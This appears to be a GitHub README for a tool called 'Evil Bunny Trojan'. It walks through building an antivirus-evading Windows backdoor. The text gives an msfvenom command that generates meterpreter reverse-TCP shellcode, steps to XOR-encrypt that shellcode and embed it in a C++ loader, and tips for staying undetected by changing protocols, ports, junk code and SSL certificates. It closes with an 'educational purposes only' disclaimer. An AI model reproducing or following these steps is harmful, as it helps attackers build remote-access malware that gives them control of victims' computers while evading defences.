 
Evil Bunny Trojan
=================
Потрясающую производительность! 

🔒 Generate FUD backdoor with a Python Crypter 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

Clone the repository
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
Generate The ShellCode
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
Encode the ShellCode With the XOR Encryption
python xor_encryptor.py raw.txt > xor_shellcode.txt
Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:

char b[] = /*xor_shellcode*/
Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that. https://cutt.ly/BBOXP797

Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

What if it gets detected?
At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again.

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

DISCLAIMER
I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!
